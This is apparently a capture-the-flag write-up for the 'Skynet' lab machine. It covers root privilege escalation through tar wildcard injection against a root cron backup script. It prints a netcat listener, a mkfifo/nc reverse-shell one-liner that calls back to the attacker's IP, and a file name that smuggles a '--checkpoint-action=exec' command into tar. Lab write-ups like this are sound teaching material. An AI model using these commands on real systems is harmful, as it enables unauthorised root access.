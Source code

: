 ```
# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Now we see that the backup script is running every minute **AND** as root.

I started to research a few things and found [Tar Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) since we have access to read and write files in the `/var/www/html` directory we can create files with names of `tar`'s parameters and they will execute as `root`.

First lets start our netcat listener on our attacking machine

```
$ nc -lnvp 9002
```

After trying a few different reverse shells I noticed that the `netcat` one was the only one that worked so lets use that one.

```
www-data@skynet:/$ cd /var/www/html
www-data@skynet:/var/www/html$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh"-i 2>&1|nc <YOUR IP> 9002 >/tmp/f" > shell.sh
```

Now that we have created the payload we need to make the file that will execute it.

```
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
```

After about a minute or waiting, we get a connection.

```
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [<YOUR IP>] from (UNKNOWN) [10.10.182.3] 35740
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

Now that we are root we can read and submit the final flag!

```
# cd /root
# ls -la
total 28
drwx------  4 root root 4096 Sep 17  2019 .
drwxr-xr-x 23 root root 4096 Sep 18  2019 ..
lrwxrwxrwx  1 root root    9 Sep 17  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Sep 17  2019 .cache
drwxr-xr-x  2 root root 4096 Sep 17  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep 17  2019 root.txt
# cat root.txt
<REDACTED>
```

Thank you for joining me on my first write-up, I hope to make many more in the future :) 
